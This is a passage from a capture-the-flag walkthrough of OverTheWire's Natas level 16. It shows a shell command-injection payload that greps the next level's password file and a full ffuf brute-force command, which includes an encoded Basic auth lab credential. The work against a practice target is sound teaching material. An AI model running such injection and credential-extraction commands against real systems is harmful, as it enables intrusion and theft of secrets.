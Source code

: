 <figure><img src=".gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

The ffuf command successfully worked, and we have successfully found our first character of the password. To find the next character, we have to append the first character that we found to the payload this time: `Americanisms$(grep ^X /etc/natas_webpass/natas)`.

```bash
ffuf -w alphanumeric.txt:FUZZ -u 'http://natas16.natas.labs.overthewire.org/?needle=Americanisms%24%28grep+%5EXFUZZ+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'    -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'Authorization: Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==' -H 'Proxy-Connection: keep-alive' -H 'Referer: http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+-E+%5Ea+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' -fr "Americanisms"
```

<figure><img src=".gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>
